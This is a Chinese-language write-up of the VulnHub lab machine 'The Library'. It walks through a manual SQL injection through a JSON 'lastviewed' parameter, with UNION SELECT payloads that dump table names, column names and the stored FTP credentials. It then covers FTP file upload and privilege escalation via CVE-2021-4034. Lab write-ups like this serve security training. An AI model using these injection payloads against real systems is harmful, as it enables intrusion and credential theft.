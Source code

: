 +++
ShowToc = true
TocOpen = true
title = '0x044 The Library'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCE9c8d1650c99445ba77eee28ab1e630d7截图.png)

![](/vulnhub_img/WEBRESOURCE433b5413969bf70ace6a7cf4db8f7bb9截图.png)

![](/vulnhub_img/WEBRESOURCEf4a0837874780ad099a5c1f6841754bd截图.png)

# 渗透

无匿名登录：

![](/vulnhub_img/WEBRESOURCEbdb2ca5cd78a55cb2b03a798a3e4cf0c截图.png)

然后看了一下80端口，这里有个坑点，也是没有发现sql注入的原因：

这里的payload是：{"lastviewed"=="Netherlands"}

得改成"{"lastviewed"=="'Netherlands'"}“才能正常执行功能

![](/vulnhub_img/WEBRESOURCEc9831f543ab8228a06efac4a00d350b9image.png)

![](/vulnhub_img/WEBRESOURCE62cff9ecb3c3f46cc68c730e86b322d3image.png)

后续就是手动注入：

查看版本

"{"lastviewed"=="'Netherlands'union select version();#"}"

![](/vulnhub_img/WEBRESOURCE9a363c8b7c0edf8bab6fb1b034aa90f0image.png)

判断回显："{"lastviewed"=="'Nethe11rlands'union select 1;#"}"

![](/vulnhub_img/WEBRESOURCE74d76e2f3253fe7c6299e9f63735810aimage.png)

"{"lastviewed"=="'Nethe11rlands'union select group_concat(database()) ;#"}"

查询到当前数据库为library:

![](/vulnhub_img/WEBRESOURCEf67775b0021f27fa6c9d96f7f8f41d10image.png)

"{"lastviewed"=="'Nethe11rlands'union select group_concat(table_name) from information_schema.tables where table_schema='library'#"}"

查询到当前数据库下有两个表：access,countries

![](/vulnhub_img/WEBRESOURCEe41ee384393586dada13e2660dcae22aimage.png)

查看access表里面的列名：

"{"lastviewed"=="'Nethe11rlands'union select group_concat(column_name) from information_schema.columns where table_name='access' #"}"

id,service,username,password

![](/vulnhub_img/WEBRESOURCEedf2be4d328bd9071e1e1f0acdcbe9e5image.png)

查询账号密码：

"{"lastviewed"=="'Nethe11rlands'union select group_concat('\n',id,'\n',service,'\n',username,'\n',password) from access #"}"

1

ftp

globus

AroundTheWorld

![](/vulnhub_img/WEBRESOURCEb4d0b61ff88eb911a1153974da677af0image.png)

成功连接FTP，ls发现具有html写入权限：

![](/vulnhub_img/WEBRESOURCE0593b45ff304b1c68c34895a2760d4dcimage.png)

这里最好别用echo，都是kaili里面，还是用vim吧：

![](/vulnhub_img/WEBRESOURCEd52f93a000de7f6f52a8f3507fd40f71image.png)

# 提权

2021-4034：

![](/vulnhub_img/WEBRESOURCE0739a45adf913c8b62cc72f789d3d79aimage.png)

还有一种提权方式：root密码是password，和数据库密码一样
